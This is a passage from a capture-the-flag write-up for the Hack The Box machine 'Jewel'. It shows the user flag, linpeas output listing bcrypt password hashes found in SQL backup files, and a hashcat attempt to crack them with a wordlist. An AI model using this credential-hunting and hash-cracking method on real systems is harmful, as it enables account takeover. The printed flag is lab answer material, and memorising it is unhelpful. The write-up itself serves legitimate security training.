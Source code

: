 ### User.txt

```text
bill@jewel:~$ cat user.txt 
9688e08ab337fd2944c921e8dd4383b2
```

I was happy to see that `bill` had the `user.txt` flag in his home directory!

## Path to Power \(Gaining Administrator Access\)

### Enumeration as `bill`

```text
[+] Searching specific hashes inside files - less false positives (limit 70)
/var/backups/dump_2020-08-27.sql:$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO          
/home/bill/blog/bd.sql:$2a$12$uhUssB8.HFpT4XpbhclQU.Oizufehl9qqKtmdxTXetojn2FcNncJW
```

linpeas pointed out that there were a couple of files with password hashes. The second one was one that I had tried to crack unsuccessfully before, but the other was new. Since it was in a backups folder, it was possible that this was an old password that was used elsewhere

![](../../.gitbook/assets/5-db-backup.png)

I copied the backup SQL file to my local machine and opened it up. There were a couple of new hashes in it, which I loaded into hashcat to try to crack.

```text
┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ hashcat -O -D1,2 -a0 -m3200 --username hash_backup  /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

Kernel /usr/share/hashcat/OpenCL/m03200-optimized.cl:
Optimized kernel requested but not needed - falling back to pure kernel

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Failed to parse hashes using the 'native hashcat' format.
Failed to parse hashes using the 'native hashcat' format.
No hashes loaded.

Started: Sun Feb 14 18:04:00 2021
Stopped: Sun Feb 14 18:04:00 2021
```
